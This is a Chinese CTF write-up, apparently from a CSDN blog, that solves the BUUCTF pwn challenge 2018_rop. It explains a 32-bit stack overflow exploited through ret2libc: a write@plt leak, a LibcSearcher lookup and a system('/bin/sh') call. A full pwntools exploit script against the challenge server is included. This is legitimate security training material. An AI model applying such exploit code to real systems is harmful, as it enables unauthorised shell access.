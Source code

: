 <!--yml
category: 未分类
date: 2022-04-26 14:55:03
-->

# [BUUCTF]PWN——铁人三项(第五赛区)_2018_rop_Angel~Yan的博客-CSDN博客_铁人三项(第五赛区)_2018_rop

> 来源：[https://blog.csdn.net/mcmuyanga/article/details/108939218](https://blog.csdn.net/mcmuyanga/article/details/108939218)

# 铁人三项(第五赛区)_2018_rop[32位libc泄露]

题目[附件](https://files.buuoj.cn/files/70baa0a3faa2a7b72be9efd44c04782e/2018_rop?token=eyJ1c2VyX2lkIjoxNTM3MSwidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6MTI0N30.X3wOew.P6w8oglGVy-aaGjfUnILGvjg-qQ)

解题步骤:
例行检查，32位，开启了NX保护
![在这里插入图片描述](img/08b023b51f3fc2167085dd2f308cebf8.png)
试运行一下程序，一开始让我们输入，然后直接输出“Hellow,world”
![在这里插入图片描述](img/a1de8d95ab4c9b09912e0227937fdc96.png)
32位ida载入，首先习惯性的shift+f12查看一下程序里的字符串，没有发现现成的system（‘/bin/sh’）
从main函数开始看程序
![在这里插入图片描述](img/830923640e26e418b25ebe5c0fee6445.png)
第4行的函数是我们的输入点，read的buf长度为0x100，而我们参数的大小只有0x88，可以溢出0x78个长度，足够我们构造rop攻击
![在这里插入图片描述](img/866834073b3caed72e5fc9309ca2dbae.png)
没有其他信息了，经典的泄露libc类型的题目

## 利用思路：

1.  利用write函数来泄露程序的libc版本
2.  知道libc版本后去计算程序里的system函数和字符串“/bin/sh”的地址
3.  覆盖返回地址为system（‘/bin/sh’），获取shell

## 利用过程：

1.  泄露libc版本
    这边提一下write函数的原型

```
ssize_t write(int fd,const void*buf,size_t count); 
```

参数说明：
fd:是文件描述符（write所对应的是写，即就是1）
buf:通常是一个字符串，需要写入的字符串
count：是每次写入的字节数

```
payload='a'*(0x88+4)+p32(write_plt)+p32(main)+p32(0)+p32(write_got)+p32(4)
r.sendline(payload)
write_addr=u32(r.recv(4))
libc=LibcSearcher('write',write_addr) 
```

这边解释一下第一个payload
首先填充‘a’*（0x88+4）造成溢出，覆盖到返回地址，返回地址填上write函数的plt地址来调用write函数，之后跟上main函数地址（我们要将程序程序重新执行一遍，再次利用输入点来进构造rop）
p32（0）+p32(write_addr)+p32(4)是在设置write函数的参数，对应函数原型看一下，32位程序是4位，所以这边写的4，对应的64位程序是8位

2.  算出程序的偏移量，计算system和bin/sh的地址

```
offset=write_addr-libc.dump('write')     

system_addr=offset+libc.dump('system')
bin_sh=offset+libc.dump('str_bin_sh') 
```

3.  构造rop获取shell

```
payload='a'*(0x88+4)+p32(system_addr)+p32(0)+p32(bin_sh) 
```

完整EXP：

```
from pwn import *
from LibcSearcher import *

r=remote('node3.buuoj.cn',27043)
elf=ELF('./2018_rop')

write_plt=elf.plt['write']
write_got=elf.got['write']
main=elf.sym['main']

payload='a'*(0x88+4)+p32(write_plt)+p32(main)+p32(0)+p32(write_got)+p32(4)
r.sendline(payload)
write_addr=u32(r.recv(4))

libc=LibcSearcher('write',write_addr)
offset=write_addr-libc.dump('write')

system_addr=offset+libc.dump('system')
bin_sh=offset+libc.dump('str_bin_sh')

payload='a'*(0x88+4)+p32(system_addr)+p32(0)+p32(bin_sh)

r.sendline(payload)
r.interactive() 
```

![在这里插入图片描述](img/54ee56afdf4e884eb3bba580b9f47b8d.png)
匹配到了多个libc版本，选第一个
泄露libc用到了延迟绑定技术，具体的看这个[视频](https://room.wenzaizhibo.com/pc-playback/purevideo?access_token=726ADD75D51630879AC41F145263FB2D46271342B5B71FB554665CAAACCA396B&expires_in=21600&is_encrypted=0&partner_id=53865096&room_id=6002260447760249&sign=58ecd2dc4bdfc0982d137a30fac14817&timestamp=1592270674&user_number=10405946&user_role=0)介绍